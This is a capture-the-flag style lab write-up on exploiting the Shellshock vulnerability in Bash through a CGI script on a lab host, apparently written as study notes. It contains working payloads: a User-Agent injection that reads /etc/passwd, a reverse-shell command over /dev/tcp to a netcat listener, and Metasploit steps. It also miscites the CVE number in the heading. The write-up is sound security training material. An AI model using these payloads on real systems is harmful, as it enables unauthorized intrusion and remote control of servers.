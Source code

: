 # 🔬Bash

## Lab 1

>  🔬 [Shellshock](https://attackdefense.com/challengedetailsnoauth?cid=1911)
>
>  - Target IP: `192.173.104.3`
>  - **Bash Exploitation** - [CVE-2014-6071](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)

### Enumeration

```bash
eth1@if54460  UP  192.173.104.2/24 
# target IP is 192.173.104.3
```

```bash
nmap -sV 192.173.104.3
```

```bash
80/tcp open  http    Apache httpd 2.4.6 ((Unix))
```

![nmap](linux-attacksassets/image-20230319153733972.png)

- Check the website via a browser:
  - `http://192.173.104.3/`
- View Page Source
  - `http://192.173.104.3/gettime.cgi`
  - `gettime.cgi` script can be utilized as the attack vector

![](linux-attacksassets/image-20230319153935041.png)

- Check if the server is vulnerable to ShellShock

```bash
nmap -sV --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" 192.173.104.3
```

![nmap http-shellshock](linux-attacksassets/image-20230319154317003.png)

### Manual Exploitation

- [Shellshock exploitable environment](https://github.com/opsxcq/exploit-CVE-2014-6271)
- To inject special characters into the `user-agent` HTTP header, [BurpSuite](https://portswigger.net/burp) can be used.
  - Configure FoxyProxy on Firefox, click on Burp Suite in FoxyProxy and run Burp Suite
  - Inside Proxy menu, turn **Intercept On**
- Reload the `/gettime.cgi` webpage in Firefox and intercept the response in BurpSuite

![](linux-attacksassets/image-20230319155107668.png)

- Send the request to the **Repeater**
- Replace `User-Agent: ` value with characters:

```bash
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```

- **Send** the request and check the Response

![](linux-attacksassets/image-20230319155542778.png)

> 📌 The target is vulnerable to ShellShock

### Reverse Shell

- Set up a listener

```bash
nc -nvlp 1234
```

- Open Burp Suite and change the command to connect to the `netcat` listener of the Kali VM. The payload will be:

```bash
() { :; }; echo; echo; /bin/bash -c 'bash -i >&/dev/tcp/192.173.104.2/1234 0>&1'
```

![](linux-attacksassets/image-20230319155950852.png)

![Reverse shell](linux-attacksassets/image-20230319160049083.png)

- *Turn off burpsuite listener and FoxyProxy.*

### Automatic Exploitation

```bash
msfconsole -q
```

```bash
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS 192.173.104.3
# RPORT is ok, 80
set TARGETURI /gettime.cgi
exploit
```

![Metasploit apache_mod_cgi_bash_env_exec](linux-attacksassets/image-20230319160531195.png)

------

